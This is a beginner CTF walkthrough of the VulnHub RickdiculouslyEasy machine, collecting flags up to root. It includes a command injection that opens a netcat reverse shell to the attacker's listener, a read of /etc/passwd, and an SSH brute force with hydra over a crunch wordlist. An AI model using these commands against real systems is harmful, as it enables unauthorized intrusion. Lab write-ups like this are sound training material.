# Rickdiculously Easy 1: Walkthrough 
**Link**: [https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/](https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/) \
**OS**: Linux  
**Difficulty**: Beginner  
**Date of writeup**: March 2026


\
This machine is designed in Rick and Morty style. The main objective is to gain root and gather flags that sum up to 130.

Basic **nmap** scan reveals a lot of intresting details:

```
sudo nmap -sS -sV -Pn -p- -A 192.168.56.107
```



First of all, we already get the first flag:

```
FLAG:{TheyFoundMyBackDoorMorty}-10Points
```

Also there is a port **60000** open which is supposedly a backdoor. Lets connect to it with **ncat**:

```
nc 192.168.56.107 60000       
```

And there is another flag:



```
FLAG{Flip the pickle Morty!} - 10 Points 
```

The other intesting thing is that **fpt** allows anonymous login:

```
ftp 192.168.56.107
```



Download the flag to your local machine:

```
get FLAG.txt
```

And we got another 10 points:

```
FLAG{Whoa this is unexpected} - 10 Points
```

30 - in totall.

Lets check out the target web page. 


Running gobuster:

```
gobuster dir --url http://192.168.56.107/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

gives as a few intresting sublinks:



First of all, lets check **passwords** page:



Flag:

```
FLAG{Yeah d- just don't do it.} - 10 Points
```

Now 40 points in our pocket.

In **passwords.html** source code i have found the password 



Right now its not clear where we can use it but we will take in mind.

**robots.txt** lists a few very promising pages:



Unfortunately, **root_shell.cgi** is a fake script. However, **tracertool.cgi** has a vurneable input field.



We can open a port for listenning on our local machine:

```
nc -lvnp 4444
```

And try to connect it from the vurlneable machine. Paste this to the input field on a web page

```
0.0.0.0; nc -e /bin/sh 192.168.56.104 4444
```

Great, we got the shell



I found that **cat** command was subsituted with a program that prints cat to the terminal so i needed to use **grep** in order to read the file.

```
grep '[a-zA-Z0-9]' /etc/passwd
```



Remember the password that we found? Naturally it seems like it should be for the user **Summer**. However, before trying to connect using ssh i wanted to check out what is on port 9090.



Another flag, another 10 points. 

Fortunately, the password was correct and i was able to login as a **Summer**:

```
ssh Summer@192.168.56.107 -p 22222
```

And got one more flag:

```
FLAG{Get off the high road Summer!} - 10 Points
```

60 points in totall, almost halfway. In **/home/Morty** i have found **journal.txt.zip** encrypted archive and **Safe_Password.jpg**


Runing a **binwalk** gave me a password: 

```
binwalk Safe_Password.jpg 
```



I used it to unzip the archive and got another flag:

```
Monday: So today Rick told me huge secret. He had finished his flask and was on to commercial grade paint solvent. He spluttered something about a safe, and a password. Or maybe it was a safe password... Was a password that was safe? Or a password to a safe? Or a safe password to a safe?

Anyway. Here it is:

FLAG: {131333} - 20 Points 
```

In **/home/RickSanchez/RICKS_SAFE** i found **safe** executable, i loaded it to my local machine:

```
scp -P 22222 Summer@192.168.56.107:/home/RickSanchez/RICKS_SAFE/sage .
```

and opened it in [Ghidra](https://github.com/NationalSecurityAgency/ghidra), a reverse engineering tool. 

Looking at the code i understood that accepts a key as an argumant and perfoms an AES decryption.



But what the key? I tried running it with the last flag and sucsseded:

```
./safe 1131333
```

```
decrypt:        FLAG{And Awwwaaaaayyyy we Go!} - 20 Points

Ricks password hints:
 (This is incase I forget.. I just hope I don't forget how to write a script to generate potential passwords. Also, sudo is wheely good.)
Follow these clues, in order


1 uppercase character
1 digit
One of the words in my old bands name.
```

By the way, we gathered 100 points. Anyway, the hint suggest to create our own custom wordlist. First, i found the name of his old band: 



Then using a format specified in the hint i generated wordlist:

```
crunch 5, 5 -t ,%The > wordlist.txt 
crunch 7, 7 -t ,%Flesh >> wordlist.txt   
crunch 10, 10 -t ,%Curtains >> wordlist.txt
```

The only thing left is to brutforce the ssh password using this wordlist:

```
hydra -l RickSanchez -P wordlist.txt ssh://192.168.56.107:22222
```



So, the password for user RickSanchez is P7Curtains.
And now we are successfully logged in as RickSanchez.

```
ssh RickSanchez@192.168.56.107 -p 22222
```

I discovered that RickSancher is in root group. So, running:

```
sudo su
```

gives as the root access.
The final flag is located in */root/*

```
FLAG: {Ionic Defibrillator} - 30 points
```

 
The RickdiculouslyEasy VM is a very intresting machine, that combine all sorts of explotation techniques (even a little bit of OSINT).